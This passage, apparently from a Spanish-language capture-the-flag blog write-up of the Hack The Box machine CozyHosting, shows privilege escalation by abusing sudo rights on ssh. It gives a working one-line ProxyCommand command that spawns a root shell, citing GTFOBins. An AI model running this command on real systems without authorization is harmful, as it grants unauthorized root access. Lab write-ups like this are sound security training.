 Como el usuario `josh` tenemos permiso para ejecutar como el usuario `root` el programa `/usr/bin/ssh` y sus argumentos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_joshSH_sudoL.png" style="width: 100%;"/>

Apoyados de [GTFOBins](https://gtfobins.github.io/) encontramos una manera de aprovechar el permiso para ejecutar comandos como el usuario asociado, en este caso **root**:

* [https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

Esto usando a **opción** `ProxyCommand` de la herramienta:

> Para profundizar, ejecuta `man ssh config` y busca `ProxyCommand`.

Simplemente ejecutando:

```bash
sudo /usr/bin/ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```

Somos **root**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_joshSH_sudoSSHoptionPROXYCOMMANDrce_rootSH.png" style="width: 100%;"/>

Y listooooones (:

# Post-Explotación [#](#post-explotacion) {#post-explotacion}

---

## Flags [📌](#post-exploitation-flags) {#post-exploitation-flags}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_flags.png" style="width: 100%;"/>

...

Hemos terminado la resolución de la máquina. Muy entretenida, el como llegamos a robarle la cookie a `kanderson` me gustó mucho.

Espero que tambien te haya gustado, nos leeremos pronto, abrazos y a seguir rompiendo de TODOOOOOOOOO!!!